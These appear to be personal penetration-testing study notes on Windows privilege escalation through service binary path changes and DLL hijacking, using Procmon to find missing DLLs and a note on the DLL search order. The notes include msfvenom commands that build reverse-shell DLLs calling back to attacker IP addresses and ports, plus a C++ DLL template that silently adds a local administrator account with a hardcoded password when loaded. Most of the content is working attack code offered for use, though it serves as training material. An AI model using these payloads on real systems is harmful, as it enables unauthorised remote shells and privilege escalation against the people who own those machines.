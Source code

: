 ```bash
sc config servicename binPath= "C:\Path\To\New\Service.exe"
```

Note that you can create a reverse shell dll:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.178 LPORT=443 -f dll -o beyondhelper.dll
# or
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f dll > shell.dll
```

Browse in the Windows Explorer to C:\tools\Procmon\ and double-click on Procmon64.exe.

We enter the following arguments: Process Name as Column, is as Relation, BetaServ.exe as Value, and Include as Action. Once entered, we'll click on Add.

After applying the filter, the list is empty. In order to analyze the service binary, we should try restarting the service as the binary will then attempt to load the DLLs.

```ps
> Restart-Service BetaService
```

Look for the Detail column to state NAME NOT FOUND for these calls, which means that a DLL with this name couldn't be found in any of these paths. You can see that the order in which the DLL is being called. There are going to be a shit ton of calls in Procmon.. take your time and check everything.

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

You can verify with typing the command *$env:path* in Powershell.

See if you have the ability to write to any of the directories that the DLL is being called from.

If you do, this code can be used as a template for a DLL; note that in the case below we know that the DLL is trying to be loaded.. it's safer to spam all of the cases if you don't know what is going on.

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user overlord Password123! /add");
  	    i = system ("net localgroup administrators overlord /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```
